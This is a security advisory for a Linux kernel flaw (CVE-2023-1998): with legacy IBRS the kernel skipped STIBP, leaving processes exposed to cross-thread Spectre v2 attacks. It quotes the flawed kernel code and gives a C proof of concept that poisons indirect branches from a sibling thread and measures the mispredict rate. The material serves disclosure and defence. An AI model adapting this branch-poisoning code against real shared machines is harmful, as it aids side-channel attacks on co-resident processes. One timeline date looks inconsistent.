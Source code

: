 ```yaml
---
title: 'Linux Kernel: Spectre v2 SMT mitigations problem'
severity: Moderate
ghsa_id: GHSA-mj4w-6495-6crx
cve_id: CVE-2023-1998
weaknesses: []
products:
- ecosystem: Linux
  package_name: Kernel
  affected_versions: <6.3
  patched_versions: '6.3'
cvss: null
credits:
- github_user_id: rrbranco
  name: Rodrigo Rubira Branco (BSDaemon)
  avatar: https://avatars.githubusercontent.com/u/610945?s=40&v=4
- github_user_id: sinkap
  name: KP Singh
  avatar: https://avatars.githubusercontent.com/u/2152812?s=40&v=4
- github_user_id: es0j
  name: José Luiz
  avatar: https://avatars.githubusercontent.com/u/37257235?s=40&v=4
---
```


### Summary
The Linux kernel allows userspace processes to enable mitigations by calling prctl with PR_SET_SPECULATION_CTRL which disables the speculation feature as well as by using seccomp. We had noticed that on VMs of at least one major cloud provider, the kernel still left the victim process exposed to attacks in some cases even after enabling the spectre-BTI mitigation with prctl. The same beahaviour can be observed on a bare-metal machine when forcing the mitigation to IBRS on boot comand line.

This happened because when plain IBRS was enabled (not enhanced IBRS), the kernel had some logic that determined that STIBP was not needed. The IBRS bit implicitly protects against cross-thread branch target injection. However, with legacy IBRS, the IBRS bit was cleared on returning to userspace, due to performance reasons, which disabled the implicit STIBP and left userspace threads vulnerable to cross-thread branch target injection against which STIBP protects.

### Severity
Medium - The kernel failed to protect applications that attempted to protect against Spectre v2 leaving them open to attack from other processes running on the same physical core in another hyperthread.

### Vulnerable code

The Bug present on Kernel 6.2 (https://elixir.bootlin.com/linux/v6.2/source/arch/x86/kernel/cpu/bugs.c#L1196) implements an optimization that disables STIBP if the mitgation is IBRS or eIBRS. However IBRS doesn't mitigate SMT attacks on userspace as eIBRS does. Setting spectre_v2=ibrs on kernel boot parameters for bare metal machines without eIBRS support also triggers the bug.

```.c
        /*
         * If no STIBP, IBRS or enhanced IBRS is enabled, or SMT impossible,
         * STIBP is not required.
         */
        if (!boot_cpu_has(X86_FEATURE_STIBP) ||
            !smt_possible ||
            spectre_v2_in_ibrs_mode(spectre_v2_enabled))
                return;
```


### Proof of Concept
The test consists of two processes. The attacker constantly poisons an indirect call to speculatively redirect it to a target address. The victim process measures the mispredict rate and tries to mitigate the attack either by calling PRCTL or writing to the MSR directly using a kernel module that exposes MSR read and write operations to userspace.

```.c
/*
gcc -o victim test.c -O0 -masm=intel -w                 -DVICTIM
gcc -o victim-PRCTL test.c -O0 -masm=intel -w   -DVICTIM  -DPRCTL
gcc -o victim-nospecctrl test.c -O0 -masm=intel -w      -DVICTIM  -DMSR  -DMSR_VAL=0
gcc -o victim-IBRS test.c -O0 -masm=intel -w    -DVICTIM  -DMSR  -DMSR_VAL=1
gcc -o victim-STIBP test.c -O0 -masm=intel -w   -DVICTIM  -DMSR  -DMSR_VAL=2
gcc -o victim-IBPB test.c -O0 -masm=intel -w    -DVICTIM  -DMSR  -DMSR_VAL=0 -DIBPB
gcc -o attacker test.c -O0 -masm=intel -w
*/
#include "utils.h"
#include <stdio.h>
#include <string.h>
#include <sys/prctl.h>

#ifndef PRINT_AMMOUNT
#define PRINT_AMMOUNT 1000
#endif

#define IA32_SPEC_CTRL 72

uint8_t *rdiPtr;
uint8_t unused[0x500];
uint8_t probeArray[0x1000] = {2};
uint8_t unuse2[0x500];

uint32_t f1() {}

int poison(uint8_t *srcAddress, uint8_t *dstAddress, uint64_t cpu)
{
    volatile uint8_t d;

    unsigned tries = 0;
    unsigned hits = 0;
    unsigned totalHits = 0;
    unsigned totalTries = 0;

    jitForLoop(srcAddress);

    while (1)
    {

#ifndef VICTIM
        callGadget(srcAddress, (uint8_t *)&rdiPtr, (uint8_t *)probeArray);
        continue;
#else

#ifdef IBPB
        wrmsr_on_cpu(73, cpu, 1);
#endif
        for (int i = 0; i < 100; i++)
        {
            d = *dstAddress;
            flush((uint8_t *)&rdiPtr);
            callGadget(srcAddress, (uint8_t *)&rdiPtr, (uint8_t *)probeArray);
        }

        if (probe(&probeArray[0]) < THRESHOLD)
        {
            hits++;
            totalHits++;
        }

        totalTries++;
        if (++tries % PRINT_AMMOUNT == 0)
        {

            printf("Rate: %u/%u  MSR[72]=%d\n", hits, tries,rdmsr_on_cpu(IA32_SPEC_CTRL,cpu));
            #ifdef MSR
            wrmsr_on_cpu(IA32_SPEC_CTRL, cpu, MSR_VAL);
            #endif
            tries = 0;
            hits = 0;
            if (totalTries >= PRINT_AMMOUNT * 10)
            {
                break;
            }
        }
        usleep(1);

#endif
    }

    printf("Total mispredict rate: %d/%d (%.2f %)\n", totalHits, totalTries, (float)totalHits * 100 / (float)totalTries);
}

int main(int argc, char **argv)
{

    uint64_t srcAddress;
    uint64_t dstAddress;
    uint64_t cpu;

    if (argc < 4)
    {
        printf("Usage:   %s <srcAddress> <dstAddress> <cpuCore> \n", argv[0]);
        printf("Example: %s 0x55555554123 0x55555555345 1 \n", argv[0]);
        return 0;
    }

    srcAddress = (uint64_t)strtoull(argv[1], NULL, 16);
    dstAddress = (uint64_t)strtoull(argv[2], NULL, 16);
    cpu = (uint64_t)strtoull(argv[3], NULL, 16);
    SetCoreAffinity(cpu);

    uint8_t *rwx1 = requestMem((uint8_t *)(srcAddress & (~0xfffULL)), 0x1000);
    uint8_t *rwx2 = requestMem((uint8_t *)(dstAddress & (~0xfffULL)), 0x1000);

#ifdef PRCTL
    if (prctl(PR_SET_SPECULATION_CTRL, PR_SPEC_INDIRECT_BRANCH, PR_SPEC_FORCE_DISABLE, 0, 0) != 0)
    {
        perror("prctl");
    }
    printf("PRCTL GET value 0x%x\n", prctl(PR_GET_SPECULATION_CTRL, PR_SPEC_INDIRECT_BRANCH, 0, 0, 0));
#endif

#ifdef MSR
    printf("current value msr[%d]=%d on core %d\n", IA32_SPEC_CTRL, rdmsr_on_cpu(IA32_SPEC_CTRL, cpu), cpu);
    wrmsr_on_cpu(IA32_SPEC_CTRL, cpu, MSR_VAL);
    printf("writing msr[%d]=%d on core %d \n", IA32_SPEC_CTRL, MSR_VAL, cpu);
    printf("current value msr[%d]=%d on core %d\n", IA32_SPEC_CTRL, rdmsr_on_cpu(IA32_SPEC_CTRL, cpu), cpu);
#endif

// set up leak gadget into position
#ifdef VICTIM
    rdiPtr = (uint8_t *)f1;
    copyLeakGadget(dstAddress);
#else
    rdiPtr = (uint8_t *)dstAddress;
    copyRetGadget(dstAddress);
#endif

    poison(srcAddress, dstAddress, cpu);

#ifdef MSR
    printf("current value msr[%d]=%d on core %d\n", IA32_SPEC_CTRL, rdmsr_on_cpu(IA32_SPEC_CTRL, cpu), cpu);
#endif
}
```


### Timeline
**Date reported** to Cloud providers: 31/12/2022
**Date reported** to security@kernel.org: 20/02/2022
**Date fixed**: 10/03/2023  
 -  https://github.com/torvalds/linux/commit/6921ed9049bc7457f66c1596c5b78aec0dae4a9d
 - https://kernel.dance/#6921ed9049bc7457f66c1596c5b78aec0dae4a9d

**Date disclosed**: 12/04/2023